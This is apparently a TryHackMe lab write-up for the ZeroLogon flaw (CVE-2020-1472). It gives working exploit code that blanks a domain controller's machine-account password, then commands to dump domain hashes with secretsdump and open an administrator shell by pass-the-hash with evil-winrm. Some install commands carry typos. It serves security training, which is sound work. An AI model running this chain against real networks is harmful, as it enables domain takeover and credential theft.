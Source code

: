 # ZeroLogon

Link: [THM-Zero-Logon](https://tryhackme.com/room/zer0logon)

* CVE-2020-1472
* Zero to Domain Admin in ~1 minute

## High-Level Overview

Exploit Zero Logon vulnerability to bypass authentication on the Domain Controller's Machine Account; Run `secretsdump.py` to dump credentials; Crack/pass Domain Admin Hashes; Domain admin

## Tools Needed

* Nmap
* Python
* Impacket
* Evil-WinRM

## Short Walkthrough

* First download the Proof of Concept (POC) exploit from Secura:

```bash
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```

* Add the following lines in the POC, immediately before the `return rpc_con` on line 45

```python
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] = b'\x00' * 516
    rpc_con.request(newPassRequest)
```

* Install `impacket`

```bash
$ python3 -m pip install virtualenv
$ python3 -m virtualenv impacketEnv
$ source impacketEnv/bin/active
$ pip install git+https://github.com/SecureAuthCrop/impacket
```

* Scan the active machine with `nmap` to identify the DC hostname as well as gather other information about the domain:

```bash
$ sudo nmap -sC -sV -A MACHINE:IP
```

* Run the zerologon POC against the `DC01` and vulnerable machine:

```bash
$ python3 zerologon_tester.py DC01 MACHINE:IP
```

* The script sets the new password to nothing so now we can use another `impacket` python script to dump the hashes from the DC:

```bash
$ secretsdump.py -just-dc -no-pass DC01\$@MACHINE:IP
```

* Using `evil-winrm` we can start a shell on the vulnerable DC and get the flag located on the Desktop of the Administrator user:

```bash
$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i MACHINE:IP
```